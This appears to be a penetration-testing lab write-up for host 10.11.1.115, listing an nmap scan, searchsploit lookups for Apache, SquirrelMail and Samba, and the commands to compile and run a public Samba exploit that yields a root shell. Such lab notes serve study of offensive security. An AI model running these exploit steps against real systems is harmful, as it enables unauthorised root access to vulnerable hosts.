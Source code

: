 ## Nmap

```bash
nmap -Pn 10.11.1.115 

Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-22 03:59 EST
Nmap scan report for 10.11.1.115
Host is up (0.043s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
143/tcp   open  imap
199/tcp   open  smux
443/tcp   open  https
3306/tcp  open  mysql
32768/tcp open  filenet-tms

Nmap done: 1 IP address (1 host up) scanned in 1.93 seconds
```

## Foothold (instant root access)

- FTP: Allows anon access to : `/pub` directory
```bash
searchsploit apache 2.0.40 red hat # yields single hit
searchsploit apache 2.0.40 red hat --id 23296 -m
```

http://10.11.1.115/webmail/src/login.php
http://10.11.1.115//usage/  -- thanks to the vuln above

```bash
searchsploit SquirrelMail 1.2.10
searchsploit --id 41910 -m # requires credentials
```

- Wireshark to search for samba version: 
```
...D DBDACODBDBCODBCODBDBDFCACACACACA. ELEBEMEJCACACACACACACACACACACAAA..........SMBr.....C.........................MICROSOFT NETWORKS 3.0..LANMAN1.0..LM1.2X002..DOS LANMAN2.1..LANMAN2.1..Samba..NT LANMAN 1.0..NT LM 0.12..SMB 2.002..SMB
```

```bash
searchsploit samba 2.002
searchsploit samba 2.002 --id 10 -m
gcc 10.c -o 10
./10 -b 0 -v 10.11.1.115
# spawns root shell
```